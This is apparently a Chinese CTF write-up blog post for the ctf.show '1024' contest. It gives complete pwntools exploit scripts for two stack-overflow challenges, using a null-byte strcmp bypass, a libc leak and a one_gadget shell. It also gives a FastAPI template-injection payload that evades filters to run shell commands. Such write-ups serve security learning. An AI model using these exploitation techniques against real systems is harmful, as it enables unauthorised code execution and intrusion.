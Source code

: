﻿title: ctf-show 1024杯
categories: [CTF]
tags: [wp,web,pwn]

---

1024嘛,周末抽空看了下ctfshow1024杯,题总体简单就是参赛晚了。没什么时间打了。

<!--more-->
## pwn

### 1024_happy_stack

![image-20201027162241325](image-20201027162241325.png)

分析题目发现是一个栈溢出,但是要绕一个ctfshow函数.

![image-20201027141150383](image-20201027141150383.png)

观测发现我们可以用'\00'来截断strcmp的检查.

![image-20201027162743178](image-20201027162743178.png)

在植入shell时,直接用gadget的方法(学习后发现真的好用)

```python
from pwn import *
from LibcSearcher import LibcSearcher
#from one_gadget import generate_one_gadget

e=ELF('./pwn1')

context.terminal = ['tmux', 'splitw', '-h']

#p=remote('111.231.70.44', 28097)
p=process('./pwn1')


def csu(rbx,rbp,r12,r13,r14,r15):
	pay='36D\00\00'+'a'*(0x380-5)+p64(0)+p64(0x00000000004007F6)+p64(0)+p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)+p64(0x00004007E0)+'\00'*48+p64(0)+p64(e.symbols['main'])

        return pay


print(p.recv())

pay=csu(0,1,e.got['puts'],e.got['puts'],0,0)


p.sendline(pay)
sleep(2)
p.recvuntil('36D\n')
sleep(2)
real_puts=u64(p.recv(6).ljust(8,'\x00'))
print(real_puts)

libc = LibcSearcher('puts', (real_puts))
libcbase =(real_puts) - libc.dump('puts')
#gdb.attach(p,'b puts')
print(hex(libcbase))
one_gadget=libcbase+0x45226

payload ='36D'+'\x00'+'\x00'*0x384
payload+=p64(one_gadget)

sleep(2)

print(p.recv())
sleep(2)

p.sendline(payload)
sleep(2)

p.interactive()
```

### 1024_happy_checkin

这道感觉上一道简单直接one_gadget一把梭

```python
from pwn import *
from LibcSearcher import LibcSearcher
#from one_gadget import generate_one_gadget

e=ELF('./pwn2')

context.terminal = ['tmux', 'splitw', '-h']

#p=remote('111.231.70.44', 28075)
p=process('./pwn2')

print(p.recv())
print(e.symbols['main'])

#pay=csu(0,1,e.got['puts'],e.got['puts'],0,0)
pay='a'*0x370+p64(0)+p64(0x00004006e3)+p64(e.got['puts'])+p64(e.plt['puts'])+p64(e.symbols['main'])

p.sendline(pay)
sleep(1)
print(p.recvline())


real_puts=u64(p.recv(6).ljust(8,'\x00'))
print(real_puts)

libc = LibcSearcher('puts', (real_puts))
libcbase =(real_puts) - libc.dump('puts')
#gdb.attach(p,'b puts')
print(hex(libcbase))
one_gadget=libcbase+0x4f2c5

payload ='a'*0x370+p64(0)+p64(one_gadget)


p.sendline(payload)
sleep(1)

p.interactive()
```

## web

### 1024_fastapi

这道题有的意识表面考fastapi，实际就考了fastapi特性，更多的还是ssti。

![image-20201027164759063](image-20201027164759063.png)

进入/docs发现cccalccc存在ssti。故慢慢试探。

![image-20201027165432130](image-20201027165432130.png)

payload如下：

```python
# -*- coding: utf-8 -*- 

import requests
import re

r= requests.session()
url = 'http://1dadb4d7-6c85-4cbc-89df-92d370159f5b.chall.ctf.show/cccalccc'
headers = {'cookie':'UM_distinctid=1749ef3c1b2a-0ccbaee915c9eb8-4c312c7c-e1000-1749ef3c1bc46'}

#r.get(url).text
x=r.post(url,{'q':'str(().__class__.__base__.__subclasses__()[95].__init__.__globals__["__builtins__"]["__imp"+"ort__"]("os").__dict__["p"+"o"+"pen"]("cat /mnt/f1a9 ").read())'})
print (x.text)

```

